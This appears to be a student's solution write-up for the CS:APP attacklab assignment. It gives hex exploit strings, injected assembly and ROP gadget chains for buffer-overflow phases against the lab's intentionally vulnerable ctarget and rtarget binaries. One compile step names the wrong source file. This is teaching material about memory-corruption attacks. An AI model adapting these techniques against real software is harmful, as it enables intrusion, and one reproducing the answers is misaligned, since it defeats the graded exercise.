

This file contains materials for one instance of the attacklab.

Files:

    ctarget

Linux binary with code-injection vulnerability.  To be used for phases
1-3 of the assignment.

    rtarget

Linux binary with return-oriented programming vulnerability.  To be
used for phases 4-5 of the assignment.

     cookie.txt

Text file containing 4-byte signature required for this lab instance.

     farm.c

Source code for gadget farm present in this instance of rtarget.  You
can compile (use flag -Og) and disassemble it to look for gadgets.

     hex2raw

Utility program to generate byte sequences.  See documentation in lab
handout.  
# Part I: Code Injection Attacks
```bash
objdump -d ctarget >> c
```
## Level 1
The address of touch1 is `4017c0`.  
In getbuf, `sub $0x28,%rsp` gives us 40 bytes space.  
So, the attack bytes: [phase1.txt](phase1.txt)
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```  
```bash
cat phase1.txt |./hex2raw |./ctarget -q
```
## Level 2
1. move cookie to %rdi
2. move touch2 address to %rsp  

So the assembly code: [phase2.s](phase2.s)
```assembly
movq $0x59b997fa,%rdi
pushq $0x4017ec
ret
```
```bash
gcc -c phase2.s
objdump -d phase2.o > phase2.d
```
So, the attack bytes: [phase2.txt](phase2.txt)
```
48 c7 c7 fa 97 b9 59 68 
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```
## Level 3
1. Change cookie string to bytes
2. Store bytes in somewhere and move it to %rdi
3. move touch3 address to %rsp

| char | hex |
|:----:|:---:|
|  5   | 35  |
|  9   | 39  |
|  b   | 62  |
|  9   | 39  |
|  9   | 39  |
|  7   | 37  |
|  f   | 66  |
|  a   | 61  |

So the assembly code: [phase3.s](phase3.s)
```assembly
movq %rsp,%rdi
pushq $0x4018fa
ret
```
```bash
gcc -c phase2.s
objdump -d phase3.o > phase3.d
```
So, the attack bytes: [phase3.txt](phase3.txt)
```
48 89 e7 68 fa 18 40 00
c3 00 00 00 00 00 00 00
fa 18 40 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61 00  <- %rsp when finished getbuf()
```
# Part II: Return-Oriented Programming
```bash
objdump -d rtarget >> r
```
## Level 2
1. move cookie to %rdi
2. move touch2 address to %rsp  
   
```assembly
4019ab: popq %rax
4019a2: movq %rax,%rdi
```
So, the attack bytes: [phase4.txt](phase4.txt)
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```
## Level 3
1. Change cookie string to bytes
2. Store bytes in somewhere and move it to %rdi
3. move touch3 address to %rsp

Assembly code we can use:
```assembly
4019ab: popq %rax
4019a2: movq %rax,%rdi
4019d6: lea  (%rdi,%rsi,1),%rax
4019dd: movl %eax,%edx
401aad: movq %rsp,%rax
401a70: movl %edx,%ecx
401a13: movl %ecx,%esi
```
The relationship between registers:  
  
So, the strategy is:
```assembly
401aad: movq %rsp,%rax
4019a2: movq %rax,%rdi
4019ab: popq %rax
48
4019dd: movl %eax,%edx
401a70: movl %edx,%ecx
401a13: movl %ecx,%esi
4019d6: %rsi+%rdi -> %rax
4019a2: movq %rax,%rdi
4018fa: touch3
35 39 62 39 39 37 66 61 00
```
Here 0x48 = 8 * 9 = 72  
So, the attack bytes: [phase5.txt](phase5.txt)
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ad 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
70 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61 00
```
